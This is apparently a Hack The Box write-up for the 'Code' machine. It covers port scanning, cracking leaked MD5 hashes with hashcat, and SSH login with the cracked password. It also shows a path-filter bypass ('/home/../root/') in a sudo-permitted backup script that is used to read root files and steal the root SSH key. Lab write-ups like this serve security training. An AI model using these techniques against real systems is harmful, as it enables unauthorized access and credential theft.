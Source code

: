 
# HTB Writeup: Code
![image (7)](https://github.com/user-attachments/assets/360ee681-9772-49b8-990a-3a99c3c526ea)

## 🧪 Machine Name: `Code`

**Platform:** Hack The Box  
**IP Address:** `10.10.11.62`  
**Difficulty:** Easy Linux

---

## 🧭 Overview

The Code box presents a realistic challenge involving password cracking, SQL exploration, path traversal, and privilege escalation through creative abuse of a flawed backup script (`backy.sh`). The key flow is:  
- MD5 password cracking → user shell  
- sudo `backy.sh` path bypass → read `/root` and capture `root.txt`  
- SSH private key extraction → root SSH login.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- 10.10.11.62 --min-rate 10000
nmap -p 22,5000 10.10.11.62 -sCV -oN nmapscan
```

Open ports: `22/SSH`, `5000/HTTP (Gunicorn)` → Python code editor on web.

### 🔍 Web Recon

- Found **SQLAlchemy query leak** → User list exposed.
- MD5 hashes extracted:

```bash
759b74ce43947f5f4c91aeddc3e5bad3 → development
3de6f30c4a09c27fc71932bfc68474be → nafeelswordsmaster
```

- Cracked with:

```bash
hashcat -m 0 hash.txt rockyou.txt
```

### 🔍 User Access

```bash
ssh martin@10.10.11.62
Password: nafeelswordsmaster
```

Found: `/home/app-production/app`, `user.txt`, and `task.json`

---

## ⚔️ Privilege Escalation

### Sudo NOPASSWD:

```bash
sudo -l
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

### Path Traversal to `/root`

The `backy.sh` script filters `../` but not equivalent sequences:

```json
"directories_to_archive": [
    "/home/../root/"
]
```

```bash
sudo backy.sh hi.json
tar -xvjf code_home_.._root_2025_June.tar.bz2
cat root/root.txt
```

### Final Root SSH Access

- Extracted `/root/.ssh/id_rsa`
- SSH as root:

```bash
ssh root@10.10.11.62 -i id_rsa
```

## 🧠 Lessons Learned

- How to bypass naive path filtering in bash+JSON scripts.
- The importance of understanding tar behavior and symlink limitations.
- SQLAlchemy enumeration leaks.
- Using hashid + hashcat efficiently.
- New tooling: **hashid**, **pipx** (for git-dumper etc).

---

*Writeup by inksec*  
*GitHub: [https://github.com/inkedqt]*
